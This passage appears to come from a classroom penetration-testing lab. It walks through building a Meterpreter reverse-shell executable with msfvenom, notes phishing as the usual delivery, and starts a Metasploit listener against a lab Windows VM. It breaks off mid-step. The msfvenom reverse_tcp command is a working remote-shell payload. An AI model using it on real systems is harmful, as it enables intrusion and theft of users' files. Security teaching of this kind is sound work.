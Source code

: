 - Create a Meterpreter shell on our Kali machine.

- Use the shell to remotely run commands once the payload is executed. 

  * Specifically, we will use commands to search for all JPG pictures in the vulnerable Windows host.

  * We will also gather system information, application information, and currently logged-on users.

Do not worry about the syntax of the specific payload or the tool that we used to create this payload, `msfvenom`. We will cover custom payloads in the next class.


#### Meterpreter Demonstration

1. First, we'll make a malicious custom payload in Kali Linux. 

  Run the following command. We will be covering the syntax of custom payloads in the next class: 

   - `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.8 lport=4444 -f exe > hack.exe`

      - This command will create a malicious `hack.exe` file. 


  After the command is run, run `ls` to confirm that the malicious `hack.exe` file has been successfully created.

   ![MSF 1](Images/MSF_1.png)


2. Launch the DVW10 VM and confirm that the malware file is on the machine. 

   - Navigate to your Downloads folder and verify that `hack.exe` is inside. 

   - A major challenge is actually getting that malicious EXE file onto a victim's target machine. Typically, this is done via a phishing email or other social engineering tactic.

      For this demo, we will assume that this step has already taken place.

    - Don't click the file yet. 

3. Now we're going to use the Metasploit console on the Kali Linux machine to set up a listener. This listener will establish a connection between the two machines once the Windows user clicks the malicious payload.

    - Launch the Metasploit framework: 

      - Run `msfconsole`

    - Select an exploit module:  
